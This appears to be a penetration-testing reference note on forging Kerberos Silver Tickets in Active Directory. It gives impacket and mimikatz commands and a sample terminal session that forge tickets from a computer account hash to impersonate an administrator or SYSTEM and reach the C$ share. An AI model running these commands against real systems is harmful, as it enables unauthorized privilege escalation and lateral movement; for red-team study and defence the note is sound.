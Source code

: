 ```yaml
---
title: Silver Ticket
---
```


A Silver Ticket is a forged [[notes/ad/kerberos-st]].
Typically you forge a Silver Ticket when you know the NT hash or AES key of a computer account and want to impersonate a admin against that computer.
It stays valid if the `krbtgt` password is rotated, but is invalidated when the passwords of computer account is rotated every 30 days.

First get the [[notes/ad/domain-sid]] of a admin, then forge a ST to impersonate the admin against the computer.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    rm ./administrator*.ccache
    impacket-ticketer -domain corp.local -domain-sid $domainsid -spn cifs/srv01.corp.local -nthash $service administrator
    export KRB5CCNAME=$PWD/administrator.ccache
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    mimikatz.exe "kerberos::golden /ptt /domain:corp.local /sid:$domainsid /service:cifs /target:srv01.corp.local /rc4:%service% /user:administrator" "exit"
    ~~~

It is possible to specify local groups in the extra SID attribute ([source](https://youtube.com/watch?v=z3FOw8MfKcw&t=18m45s)).
The local domain SID can be retrieved as authenticated user with [getlocalsid.py](https://github.com/dirkjanm/forest-trust-tools/blob/master/getlocalsid.py).

~~~
❯ impacket-lookupsid -hashes :$nthash corp.local/'ws01$'@dc01.corp.local 0
[*] Domain SID is: S-1-5-21-1111111111-2222222222-333333333
❯ python3 ./getlocalsid.py -hashes :$nthash corp.local/'ws01$'@ws01.corp.local ws01
Found local domain SID: S-1-5-21-4444444444-5555555555-6666666666
❯ impacket-ticketer -nthash $nthash -domain corp.local -domain-sid S-1-5-21-1111111111-2222222222-333333333 -extra-sid S-1-5-21-4444444444-5555555555-6666666666-500 -spn cifs/ws01.corp.local 'ws01$'
[*] Saving ticket in ws01$.ccache
❯ impacket-smbclient -k -no-pass ws01.corp.local
# use c$
~~~

Furthermore it is possible to impersonate `NT Authority/System` remotely ([source](http://web.archive.org/web/20231104044549/https://labs.withsecure.com/publications/scheduled-task-tampering)).

~~~ bash
impacket-ticketer -nthash $nthash -domain corp.local -domain-sid $domainsid -extra-sid S-1-5-18 -spn cifs/ws01.corp.local 'ws01$'
~~~
